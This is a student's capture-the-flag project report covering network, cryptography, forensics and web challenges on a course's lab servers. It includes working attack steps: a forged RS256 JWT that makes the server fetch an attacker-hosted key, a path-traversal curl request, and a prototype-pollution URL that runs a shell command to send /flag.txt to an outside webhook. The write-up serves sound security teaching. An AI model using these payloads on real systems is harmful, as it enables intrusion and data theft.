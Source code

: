 <div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">
  
  <h2>CITS1003 Project Report</h2>
  
  <p>Student ID: Student 24059081</p>
  <p>Student Name: Ziying Zhou</p>

</div>

# Part 1 - Linux and Networking
## Emu Hack #1 - Backdoored
### Step 1
Use NMAP to scan the specified port range of the server to determine which port has open services.
Step 1: Use nmap to scan ports
Firstly, we will use nmap to scan the port range 61000 to 61500 on IP address 34.116.68.59. Install it with command:
```
sudo apt-get install nmap
```
Scan specified port range
Scan the specified port range using the following command:
```
nmap -p 61000-61500 34.116.68.59 -Pn
```
 `-p` : option is used to specify the port range.

 `- Pn`:  option is used to skip host probing (this option can be used if you encounter issues with unresponsive hosts).

 Then we got this:
 ```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 08:16 EDT
Nmap scan report for 59.68.116.34.bc.googleusercontent.com (34.116.68.59)
Host is up (0.063s latency).
Not shown: 500 filtered tcp ports (no-response)
PORT      STATE SERVICE
61337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.90 seconds
```
### Step 2
Use Netcat to send TCP messages to the discovered open port and verify which port is the backdoor port.
Install netcat with command:
```
sudo apt-get install netcat
```
The port we found is `61337`, so we can use this command to send the message:
```
echo "EMU" | nc 34.116.68.59 61337
```
We got what we need now.
```
 ______        ___   _ _____ ____    _                  
|  _ \ \      / / \ | | ____|  _ \  | |__  _   _        
| |_) \ \ /\ / /|  \| |  _| | | | | | '_ \| | | |       
|  __/ \ V  V / | |\  | |___| |_| | | |_) | |_| |       
|_|     \_/\_/  |_| \_|_____|____/  |_.__/ \__, |       
    _                             _____    |___/        
   / \   _ __   __ _ _ __ _   _  | ____|_ __ ___  _   _ 
  / _ \ | '_ \ / _` | '__| | | | |  _| | '_ ` _ \| | | |
 / ___ \| | | | (_| | |  | |_| | | |___| | | | | | |_| |
/_/   \_\_| |_|\__, |_|   \__, | |_____|_| |_| |_|\__,_|
               |___/      |___/                         

Did you really think you would find our backdoor so easily? :P

Good effort though, here's a flag for your attempt: UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```
#### Flag Found
```bash
UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```

## Emu Hack #2 - Git Gud
### Step 1
#### Check Git server and clone repository ：
Install the `git`:
```
sudo apt-get install git
```
Clone Git repository
Run the following command to clone a Git repository named emu:
```
git clone http://34.116.68.59:8000/emu.git
```
```
┌──(kali㉿kali)-[~]
└─$ git clone http://34.116.68.59:8000/emu.git
Cloning into 'emu'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (3/3), done.
```
### Step 2
#### Check the cloned repository：
Enter the cloned warehouse repository with command `cd emu`. Then list all the file with command `ls`.
There is a text file call `README.txt` So we need to catch the message with `cat README.txt`.
```
┌──(kali㉿kali)-[~/emu]
└─$ cat README.txt
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}
--------------------------------------------------

To Angry Emu hacker,

As per our agreement, I have set up some SSH credentials for you to access our server:

username: emu001
password: feathers4life24

To make sure only us birbs can get in I set a login shell to stop pesky hoomans getting in. Just do that SSH trick I taught you about to get in.

Delete this message after you read it!

Best regards,
Mr. X
```
#### Flag Found
```bash
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}

```

## Emu Hack #3 - SSH Tricks
### Step 1
#### Run commands directly using SSH：
As we got the username and password from last question:
```
username: emu001
password: feathers4life24
```
Try using SSH to directly execute commands on a remote host, such as listing the contents of the/home/emu001 directory:
```
ssh -p 2022 emu001@34.116.68.59 "ls /home/emu001"
```
Then we got:
```
note_to_angry_emu_hacker.txt
top_secret.png
```
Then try to copy it to local folder:
```
scp -P 2022 emu001@34.116.68.59:/home/emu001/* ./
```
```
┌──(kali㉿kali)-[~/emu]
└─$ scp -P 2022 emu001@34.116.68.59:/home/emu001/* ./
emu001@34.116.68.59's password: 
note_to_angry_emu_hacker.txt                        100%  313     2.5KB/s   00:00    
top_secret.png                                      100%  475KB 912.0KB/s   00:00  
```
Obviously, `top_secret.png` is what we are looking for. Now open it from where we just downloaded.
#### Flag Found
```bash
UWA{how_did_u_get_pass_that_login_shell?????}
```

## Emu Hack #4 - Git Gud or GTFO Bin
### Step 1
#### Connect to target server:
Because `python3 -c 'import pty; pty.spawn("/bin/bash")'` didn't work on my computer, I used this instead:
```
ssh -t -p 2022 emu001@34.116.68.59 "bash -i"
```
`-t`: This option forces the allocation of a pseudo terminal. For certain commands, especially those that require user interaction, such as bash, this option is necessary. It allows us to run interactive shells or other commands in remote sessions.
`"bash - i"`: This section is the command to be executed after successfully connecting to the remote server. In this case, we need to launch an interactive bash shell- The i option represents an interactive shell.
### Step 2
#### Run command:
`diff`:  is a subcommand of git used to compare the differences between two files or directories.
The diff command here compares the contents of two files and outputs their differences.

`--no-index`: The `--no-index` option tells the git diff command to compare two specified files instead of assuming they are in a Git repository. It allows us to compare two regular files without the need for them to be in the Git repository.

`/dev/null`: is a special file that discards all data written to it, and reading it always returns EOF.
In this command, we compare `/dev/null` as an empty file with flag4.txt.

`/home/mr_x/flag4.txt`: This is the path to the target file we want to view.
Then we got:
```
diff --git a/home/mr_x/flag4.txt b/home/mr_x/flag4.txt
new file mode 100644
index 0000000..a0c60be
--- /dev/null
+++ b/home/mr_x/flag4.txt
@@ -0,0 +1 @@
+UWA{i_G0T_g1t_g0oD_4Nd_gTf0_B1N5d_InT0_yR_aCcOunT!!1}
\ No newline at end of file
```
#### Flag Found
```bash
UWA{i_G0T_g1t_g0oD_4Nd_gTf0_B1N5d_InT0_yR_aCcOunT!!1}
```

# Part 2 - Cryptography
## Advanced Emu Standard
### Step 1
This scenario describes the use of AES-128 encryption algorithm to encrypt data in ECB (Electronic Codebook) mode.
Because AES-128 operates with a block size of 16 bytes. The website can only encrypt 31 bytes of data at a time. However, command `deactivate_special_procedure_123` has 32 bytes long So I devided this command into two parts both only have 16 bytes of it.
```bash
deactivate_speci
```
```bash
al_procedure_123
```

### Step 2
I put these two command `deactivate_speci` and `al_procedure_123` into Command Encryptor respectively.
Then I gain the ciphertext `3155433d53ed30c89aef89b2e7273924` and `4127efafc809cc1209376d039e0001f1`.
Now put them together.
```bash
3155433d53ed30c89aef89b2e72739244127efafc809cc1209376d039e0001f1
```
### Step 3
Put the cyphertext into Transmit encrypted command and get the flag.
#### Flag Found
```bash
UWA{3CB_i5_bL0cK_Ind3peNd3nt!}
```

## Emu Cook Book
### Step 1
`H4sI` is an identifier that indicates that a string of data is compressed using gzip and encoded as the beginning of Base64 format
At the end of the cyphertext, there are two '=' which is also likely to be Base64. 
So I try to use `From Base64` and `Gunzip` first in Cyberchef.
Then I gain these:
```
00000000%20%2035%2036%2020%2035%2036%2020%2036%2034%2020%2034%2032%2020%2036%2035%2020%2033%20%20%7C56%2056%2064%2042%2065%203%7C%0A00000010%20%2033%2020%2035%2032%2020%2034%2039%2020%2034%2064%2020%2033%2031%2020%20......
```
### Step 2
As we can see above, the text includes special characters like '%' in it. It might be the URL encoding format, so I use `URL Decode`
And it becomes like this:
```
00000000  35 36 20 35 36 20 36 34 20 34 32 20 36 35 20 33  |56 56 64 42 65 3|
00000010  33 20 35 32 20 34 39 20 34 64 20 33 31 20 33 39  |3 52 49 4d 31 39|
......
```
### Step 3
The result we gained from last step is `Hexdump` format, so I use `From Hexdump` in cyberchef, then we obtained a set of hexadecimal numbers.
Easily, use `From Hex` in cyberchef.
Then we have:
```
VVdBe3RIM19lTW9PNV93MUxMX24zVjNyX3NUb1BfZDAxbkdfdEgzNWVfZFZtQl9jMUJyX2NIM2VGX2NoNExsU30=
```
Similarly, it ends with '='. So I assume it is a base64 text and use `From Base64` again.
And we have the flag now.
#### Flag Found
```bash
UWA{tH3_eMoO5_w1LL_n3V3r_sToP_d01nG_tH35e_dVmB_c1Br_cH3eF_ch4LlS}
```

## Emu Casino
### Step 1
#### What is seed?
As we can see from the `filp_coin.py` file, `seed(str(session["round"]) + "_" + session["session_id"])` is the main thing to decide the result.
The seed() function in Python initializes the random number generator with a specific starting point, allowing for reproducible random outcomes.
The seed here is consist of two parts: first one is `session["round"]` which is the round of the game, the second one is `session["session_id"]` which can be found in the cookie.
### Step 2
#### Find the session id:
We can right click on the page `http://34.87.251.234:3000/` and select `inspect`. Then find `Application` and we can see `cookie` on the left panel.
The cookie value we found is:
```
eyJjcmVkaXRzIjoxMCwicm91bmQiOjEsInNlc3Npb25faWQiOiJiYTNlNTJiMTc0M2Y3MzUxOGM4YmEwYzY1YjAzYTliYyJ9.ZkiIpw.pTUdUQa5nkII0zkbM7EBa8RXQY4
```
This is base64 text, so we can decode it through CyberChef: `https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)`.
CyberChef is a web-based tool for encoding, decoding, encrypting, decrypting, and analyzing data through a wide array of operations.

After we use `From Base64` , we got:
```
{"credits":10,"round":1,"session_id":"ba3e52b1743f73518c8ba0c65b03a9bc"}fH.§
SQÕ.k.ä .3.³;..¼Et.ä
```
So the session id is `ba3e52b1743f73518c8ba0c65b03a9bc`.
### Step 3
#### Use `solution.py`:
As the solution provided:
```

def flip_coin():
    # Change this line
    session_id = ""
    # Change this line
    round = 0

    seed(str(round) + "_" + session_id)

    print(choice(["tails", "heads"]))
```
Only thing we need to do is filling the session id and round number in it and we will get the prediction.
#### Flag Found
```bash
UWA{R0LLl111Llli1iNg_1N_C4$$$$h!11!}
```

## EWT
### Step 1
#### Find the flaw:
Open the `website.js` file, is easily to find the code below:
```
if (signingAlgo === "RS256") {
        // Grab where the RS256 public key URL from the "iss" claim in the JWT body
        // We currently haven't figured out how to sign our own RS256 JWTs yet...
        const issuerUrl = decodedBody.iss;

        // Make sure those hoomans aren't hacking with something like file://
        const regExp = new RegExp("^https?://");
        if (!regExp.test(issuerUrl)) {
            throw Error("invalid URL in iss claim");
        }
        
        // Should be fine to download the public key
        key = await downloadFromUrl(issuerUrl);
    }
```
In the comment, it reveals that EMU didn't use RS256 to sign their JWT. So we can use a JWT signed with RS256 to bypass the verification.
### Step 2
#### How is the JWT consist of:
JWT (JSON Web Token) is a compact, URL-safe means of representing claims to be transferred between two parties, commonly used for authentication and information exchange in web applications.
As we can find this JWT in site `http://34.87.251.234:3002/` :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBlYXNhbnQtaG9vbWFuIiwiaWF0IjoxNzE2MDMwNTMzfQ.AXthaVqinWUo9K0DAWdzOyq-KL2H3_09GQsPw7RngrY
```
Now decode it through Cyberchef to look at the structure.
```
{"alg":"HS256","typ":"JWT"}{"username":"peasant-hooman","iat":1716030533}..¶..ª)ÖR.JÐ0.w3²¨¢ö.}=...Ã´g.¶
```
This JWT is signed with HS256 algorithm. Still in the `website.js`, a comment: ` // If the username is "superior-emu" in the JWT then give them the pressie` replies that we can use username:`superior-emu` to sign the JWT. Then how?
### Step 3
#### Create the new JWT:
To force the emu download our public key signed by RS256, we need to create an URL where can be read by emu.
Using CyberChef, `Generate RSA Key Pair` can provide a pair of RSA key.
```
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDWJNveamCYETN8BeTUxHL8AOGs
Kc0YqlYtpUqGQtMAGFe4FpDg+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxc
MO72l4bsTbSuNQtuqsDT6s5nRTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WL
uQPL30p13CJR7LzI3wIDAQAB
-----END PUBLIC KEY-----

-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----
```
We can use website `https://text.is/` to keep the public key. Now we got the URL:`https://text.is/KXRZ8/raw`.
In the context of JWT (JSON Web Tokens), iss stands for "issuer" and is a claim that identifies the principal that issued the JWT.
So we are going to put the URL into iss: iss:"https://text.is/KXRZ8/raw".
By combining all the things we know and put it into a python file(for generating the JWT)
```
import jwt
from datetime import datetime, timedelta

private_key = """-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----"""

payload = {
    'username': 'superior-emu', 
    'iss': 'https://text.is/KXRZ8/raw' 
}
# Sign JWT with RSA256
encoded_jwt = jwt.encode(payload, private_key, algorithm='RS256')
print("Generated JWT:", encoded_jwt)
```
we can obtain:
```
Generated JWT: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVyaW9yLWVtdSIsImlzcyI6Imh0dHBzOi8vdGV4dC5pcy9LWFJaOC9yYXcifQ.OtYLcA-LcQGuWC405HuJxtV5xADgYBM7bL78JlrFMiZcMwq-6w2Br9ZC2u3AqQz9wVhYrZrbI9h0rS_YWC6ExN9SUXCQjNjnT54wudo19xWfqveE82E6Ed_Ir1MCWwHfMb3NvbAWqYdKvmS-Y1PWLypA7siUOC869qcwbz6AZqg
```
Put this JWT into the server.
#### Flag Found
```bash
UWA{w4iT_wHeR3_d1D_u_g1T_d4t_k3y???}
```

# Part 3 - Forensics
## Caffeinated Emus
### Step 1
Picture may embed some metadata. You can use exiftool to extract this information.
Install exiftool:
```
sudo apt-get install exiftool
```
Extract metadata:
```
exiftool /home/kali/loganpaul-emus.png
```
And we got:
```
┌──(kali㉿kali)-[~]
└─$ exiftool /home/kali/loganpaul-emus.png
ExifTool Version Number         : 12.76
File Name                       : loganpaul-emus.png
Directory                       : /home/kali
......
GPS Latitude                    : 31 deg 27' 59.19" S
GPS Longitude                   : 119 deg 29' 0.70" E
GPS Position                    : 31 deg 27' 59.19" S, 119 deg 29' 0.70" E
```
Now we have the location: `-31.466441, 119.483528`.
So we can search it in GoogleMap: `https://www.google.com/maps`.
#### Flag Found
```bash
UWA{Marvel Loch}
```

## Flightless Data
### Step 1
As we can know from the clue, emu used `steghide` to encode their message in the image. So we can decode it with the oppsite way:
Install the `steghide` first:
```
sudo apt install steghide 
```
Look for some help with:
```
steghide --help
```
### Step 2
Save the image from `html` as emufly.jpg.
Now we got what we need:
```
┌──(kali㉿kali)-[~]
└─$ steghide extract -sf /home/kali/emufly.jpg
Enter passphrase: 
wrote extracted data to "secret.txt".
```
`-sf`: Specify a file that contains hidden data.

Now open the secret.txt
```
cat secret.txt
```
#### Flag Found
```bash
UWA{fLigHtL3sS_d4Ta_uNd3r_tH3_r4dAr} 
```

## Ruffled Feathers
### Step 1
#### Using ghex to find the problem:
GHex, short for GNOME Hex Editor, is a desktop application used to edit binary files in hexadecimal format, providing tools to analyze and modify the raw binary content of files visually. 
Download it with command :
```
sudo apt install ghex
```
Then open the pdf file with ghex:
```
ghex /home/kali/topsecret_corrupted.pdf
```
What we can see from the right panel is:

![image](https://github.com/GLRY-M/cits1003/assets/169660884/8b9abe0b-b9a4-49e2-a3fb-002ca9b368a7)

It's a little bit hard to check what's the problem. So we can open a normal pdf file to check the difference.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/54c88605-95ac-4740-9d73-2a71d824ce9d)

What was supposed to be `length` was `Corrupted`.So we can edit this and save it. Now the pdf has the useful content in it.
#### Flag Found
```bash
UWA{uNrUffLed_pDeF}
```


## Emu in the Shell
### Step 1
#### SSH login to server:
Connect to the server via SSH using the provided account information. Using commands:
```
ssh-p 2022 ir-account@34.87.251.234
```
`- p 2022` is the specified port, the username is `ir-account`, and the server address is `34.87.251.234`.  

Find and check the PAM module:
Once logged in, we need to check the files in the `/lib/x86_64 Linux gnu/security` directory to find any recently modified PAM modules. We can use the following command to view the modification time of a file:
```
ls lt/lib/x86_64 Linux gnu/security
```
To find the file be changed by EMU, we can go to this blog: `https://github.com/zephrax/linux-pam-backdoor`. Then we will know the file `pam_unix.so` is what er are looking for.
### Step 2
#### Now copy this file to local folder:
Let's copy the files to the `/tmp` directory, which is usually open to all users for write access. Use the following command:
(Ensure that you execute this command in the terminal of the Kali environment)
```
scp -P 2022 ir-account@34.87.251.234:/tmp/pam_unix.so ~/pam_unix.so
```
### Step 3
#### Analyse what did EMU change in pam_unix.so:
Use Ghidra to do it: (download it through: `https://ghidra-sre.org/`).
We also need to download JDK (version need to higher than 17)

Now open Ghidra and import `pam_unix.so` and `analyse` it. As we knew from the clue, there is an account called 'emu-haxor', so we can use this as the keyword to search in the file.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/bf625be8-22b5-4103-a692-4b7ff54ba2f4)

There is an item `pUpPet_m4sT3r`. It probably is the password for emu-haxor account. So log in the emu-haxor now:
```
ssh-p 2022 emu-haxor@34.87.251.234
```
The flag should be in it right now, use `ls` have a look at what's in here and we can find there is a `flag.txt` here -- is what we are looking for:
```
cat flag.txt
```

#### Flag Found
```bash
UWA{tH15_eMu_w1Ll_aLw4y5_b3_iN_uR_sH3lLlLllL!11!}
```

# Part 4 - Vulnerabilities
## Feathered Forum - Part 1
### Step 1
#### Bypass the verification:
From the `app.py` file we can see emu just check that the "username" cookie matches an existing user which is unreliable.
The eligible usename also provided in the code:
```
# Hard code the allowed users so hooman hackers cannot make their own accounts
EMU_USERS_ACCOUNTS = [
    {
        "username": "BeakMaster",
        "password": os.urandom(16).hex()
    },
    {
        "username": "OstrichOutlaw",
        "password": os.urandom(16).hex()
    },
    {
        "username": "H4ck3r3mu123",
        "password": os.urandom(16).hex()
    }
]
```
### Step 2
#### Set a new cookie to confuse the verification:
Press the `F12` button on our keyboard(Windows). Then select `Application` . Create a new cookie named `username`, insert the value as `BeakMaster`.
Now open the site directly `http://34.87.251.234:8000/forum`.
#### Flag Found
```bash
UWA{C00k13333z_4r3_Th3_W4y_T0_4n_3mu's_H34rt}
```

## Feathered Forum - Part 2
### Step 1
After we turn on the page from last question from site `http://34.87.251.234:8000/forum`.
There is a post called `What on earth is a path traversal???` has the information we are looking for.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/9f658483-5c92-4d77-817a-835ad58d0112)
#### Flag Found
```bash
UWA{CWE-22}
```

## Feathered Forum - Part 3
### Step 1
The provided code shows how the server handles requests for static files. The code takes a filename parameter and associates it with combining `./static/` path to locate files. If the user controlled input (file name parameter) contains something like `../` If this path traverses the sequence, then this input may be used to jump to other directories.
#### URL Parameter Parsing:
filename=../config.yaml is a request parameter received by the web server.
The server code will append this parameter value to the predefined path ./static/.
#### Server-Side Code Behavior:
Based on the provided code, os.path.join("./static", file_path) will be executed, where file_path is obtained from the request as ../config.yaml.
This code attempts to append ../config.yaml to the path ./static/, intending to set the access path within the ./static directory. However, due to the use of ../, the path resolves to ./static/../config.yaml, which actually points to ./config.yaml, located in the feathered-forum directory.
```
curl "http://34.87.251.234:8000/static?filename=../config.yaml"
```
`Curl`:  is a tool for sending HTTP requests. The use of `curl` here is to directly test the response of the web server from the command line, which is very effective for quick verification and vulnerability testing.

Run this command and we get:
```
┌──(kali㉿kali)-[~]
└─$ curl "http://34.87.251.234:8000/static?filename=../config.yaml"

secret_key: "UWA{Dir_Trav3rs@l_Flight}"
```
#### Flag Found
```bash
UWA{Dir_Trav3rs@l_Flight}
```

## Emu Apothecary
### Step 1
#### Analyze Input and URL Changes:
I put 1,2,3 respectively into the field of `Ingredient Name`, `Amount`, `Type of Amount`.
After submitting the form, the URL changed to: 'http://34.87.251.234:8001/?1.type=3&1.value=2'.
This indicates that the input fields are processed and appended as query parameters to the URL.
### Step 2
#### Understand the Application Logic:
I reviewed the provided js code to understand how user inputs are processed. The key parts of the code are:
```
for (const key in userInput) {
    // Input is in the format of `{ingredientName}.{attribute}`
    if (!key.includes(".")) continue
    // Split the key name by the '.' character
    const split = key.split('.')
    // Set the attribute for the ingredient by the first two dots
    // E.g. if the input is vinegar.type=mL it will set
    // {"vinegar": {"type": "mL"}} in the baseIngredients variable
    const ingredientName = split[0]
    if (typeof baseIngredients[ingredientName] === "undefined") {
        baseIngredients[ingredientName] = {}
    }
    const ingredientAttribute = split[1];
    // Should be completely secure doing this???
    // I don't think the hoomans can pollute anything by assigning attributes this way
    // Yeah I am pretty sure this is not vulnerable to prototype pollution
    // I am not merging anything right???
    baseIngredients[ingredientName][ingredientAttribute] = userInput[key];
}
```
This code snippet shows that user inputs are split by the `.` character, and then assigned to the `baseIngredients` object. By manipulating the input format, it's possible to inject properties into this object.
### Step 3
#### Exploit:
##### Leveraging Prototype Pollution:
By injecting properties into the `__proto__` object, we can potentially execute arbitrary code. We aim to use the escapeFunction property used by the EJS template engine.
To execute the payload, I constructed a URL that modifies the `__proto__` properties:
```
http://34.87.251.234:8001/?__proto__.client=1&__proto__.escapeFunction=JSON.stringify;process.mainModule.require(%27child_process%27).exec(%27curl%20-X%20POST%20-F%20%22flag=@/flag.txt%22%20%20https://webhook.site/32962c2a-7c54-441d-82ad-4aa97c2370f6%27)
```
This URL does the following:

Modifies the client property of `__proto__`.
Sets the `escapeFunction` to `JSON.stringify`, bypassing the normal escaping mechanism.
Executes a `curl` command to send the contents of `/flag.txt` to my webhook.
```
https://webhook.site/
```
(Webhook is a website that provides a unique URL for capturing and inspecting HTTP requests sent to it, commonly used for testing webhooks, HTTP requests, and debugging applications. I got my a website under my control from here: `	https://webhook.site/32962c2a-7c54-441d-82ad-4aa97c2370f6`.)

By visiting the crafted URL, the injected payload was executed, and the contents of `/flag.txt` were sent to my webhook. The flag was successfully captured.
#### Flag Found
```bash
UWA{p0LlUtInG_tH3_eMu5_r3CiP3_w33B5iT3!!1!}
```
